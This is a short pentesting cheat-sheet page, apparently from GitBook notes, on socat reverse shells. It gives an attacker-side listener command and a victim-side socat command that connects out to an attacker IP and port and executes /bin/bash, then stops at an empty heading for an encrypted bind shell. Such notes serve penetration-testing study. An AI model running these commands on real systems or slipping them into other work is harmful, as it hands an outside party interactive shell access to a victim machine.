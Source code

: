 #### Socat Reverse Shells



**Attacker** Machine &#x20;

```bash
socat -d -d -v tcp4-listen:<PORT> stdout
```

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

**Victim** Machine &#x20;

```bash
socat  -d -d TCP4:<IP>:<PORT>,fork  exec:/bin/bash

```

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

### Socat Encrypted Bund Shell&#x20;
